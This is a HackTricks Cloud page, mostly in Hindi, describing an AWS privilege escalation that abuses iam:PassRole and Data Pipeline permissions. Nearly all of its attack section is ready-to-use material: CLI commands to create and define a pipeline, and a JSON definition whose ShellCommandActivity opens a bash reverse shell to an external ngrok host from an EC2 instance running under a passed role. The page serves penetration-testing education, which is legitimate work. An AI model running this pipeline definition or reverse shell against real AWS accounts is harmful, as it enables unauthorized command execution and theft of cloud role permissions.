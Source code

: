 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

इन **अनुमतियों वाले उपयोगकर्ता एक डेटा पाइपलाइन बनाकर विशेषाधिकार बढ़ा सकते हैं** ताकि **नियुक्त भूमिका की अनुमतियों का उपयोग करके मनमाने आदेश निष्पादित कर सकें:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन निर्माण के बाद, हमलावर इसकी परिभाषा को अपडेट करता है ताकि विशिष्ट क्रियाएँ या संसाधन निर्माण को निर्धारित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **भूमिका** को **datapipeline.amazonaws.com** द्वारा ग्रहण करने योग्य होना चाहिए और **लाइन 28** में भूमिका को **ec2.amazonaws.com द्वारा ग्रहण करने योग्य होना चाहिए जिसमें एक EC2 प्रोफ़ाइल इंस्टेंस हो**।

इसके अलावा, EC2 इंस्टेंस केवल उस भूमिका तक पहुंच रखेगा जो EC2 इंस्टेंस द्वारा ग्रहण की जा सकती है (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
The **pipeline definition file, crafted by the attacker, includes directives to execute commands** या AWS API के माध्यम से संसाधन बनाने के लिए, Data Pipeline की भूमिका अनुमतियों का लाभ उठाते हुए संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त करने के लिए।

**Potential Impact:** निर्दिष्ट ec2 सेवा भूमिका के लिए सीधे privesc।

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
